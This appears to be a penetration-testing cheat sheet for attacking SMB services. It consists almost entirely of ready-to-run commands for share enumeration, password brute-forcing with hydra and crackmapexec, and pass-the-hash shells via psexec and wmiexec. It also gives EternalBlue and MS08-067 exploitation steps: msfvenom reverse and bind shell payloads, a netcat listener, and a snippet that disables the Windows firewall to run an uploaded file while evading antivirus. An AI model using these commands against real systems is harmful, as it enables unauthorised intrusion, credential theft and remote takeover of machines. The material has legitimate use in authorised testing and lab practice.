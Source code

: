 ## SMB Enumeration - 445

### Version if nmap didn’t detect it

Sometimes nmap doesn’t show the version of Samba in the remote host, if this happens, a good way to know which version the remote host is running, is to `capture traffic with wireshark against the remote host on 445/139 and in parallel run an smbclient -L`, do a follow tcp stream and with this we might see which version the server is running.

OR

```bash
sudo ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -L <IP>
```

### Scan for vulnerability

```bash
nmap -p139,445 -Pn --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
```

## Manual Testing

```bash
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R <Path>

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares
crackmapexec smb <IP> -u '' -p '' --users

#crawl all the shares and generate a file in tmp folder
crackmapexec smb <IP> -u '' -p '' -M spider_plus


enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"

# Check user
rpcclient -U '' writer.htb
rpcclient -U '' -N writer.htb
> enumdomusers
> queryuser <username
# https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html
```

### Brute force

```bash
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
Mount a SMB share
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
Get a shell
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### EternalBlue (MS17-010)
Exploit Code - `git clone https://github.com/3ndG4me/AutoBlue-MS17-010`
Check if vulnerable - `python eternal_checker.py <IP>`
Custom exploit (Bypass Antivirus)
```bash
service_exec(conn, r'cmd /c netsh firewall set opmode disable')
smb_send_file(smbConn,'Your favourite file location','C','/yourfile')
service_exec(conn, r'cmd /c C:\yourfile <some syntax>')
```

#### Prepare shellcodes and listeners
```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit
```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
If this doesn’t work, try this one
python zzz_exploit.py <IP>
```

### MS08-067
Download exploit code - `git clone https://github.com/andyacer/ms08_067.git`

#### Generate payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

#### Modify
Modify ms08\_067\_2018.py and replace the shellcode variable by the one generated with msfvenom.

#### Listener
`nc -lvp <PORT>`

#### Exploit
`python ms08_067_2018.py <IP> <NUMBER> 445`

### Errors with Solution
Error - protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
Solution - `smbclient -L //10.10.10.3/ --option='client min protocol=NT1'`

### msf console for changing smb setting
```bash
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```
